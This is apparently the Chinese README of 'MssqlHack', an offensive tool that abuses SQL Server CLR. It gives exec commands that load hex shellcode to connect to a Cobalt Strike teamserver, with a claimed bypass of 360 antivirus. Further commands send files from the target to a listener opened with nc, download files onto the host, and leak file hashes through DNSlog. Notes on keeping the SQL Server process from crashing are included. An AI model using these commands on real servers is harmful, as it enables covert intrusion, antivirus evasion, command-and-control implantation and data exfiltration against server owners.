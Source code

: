 # MssqlHack
sqlserver通过clr执行一些基础操作
## 功能：
一、shellcode loader直接上线cs(可bypass360)

**2008和2012的teamserver不能使用profile，不然会导致sqlserver挂掉。**

**2005需要重启服务所以不能用，大于2016内存分配有问题目前也无法使用。**

**最好使用cs4.5，生成shellcode的时候选择退出方式为线程，不然执行exit的时候会导致sqlserver进程退出，导致服务宕机。**
```
exec loader'0','hex shellcode','',''
```
二、 上传文件

**服务器使用nc接收文件**
```
nc -lvvp 8888 >111.izp
```
```
exec loader'1','ip','8888','c:\111.zip'
```
三、下载文件
```
exec loader'3','https://url','c:\users\public\111.zip',''
```
四、计算文件md5

**通过dnslog获取文件md5**
```
exec loader'2','1','dnlsog.cn','c:\users\public\111.zip'
```
**通过将文件md5写入到文件中**
```
exec loader'2','2','c:\users\public\111.txt','c:\users\public\111.zip'
```
## 安装
一句一句执行install.sql
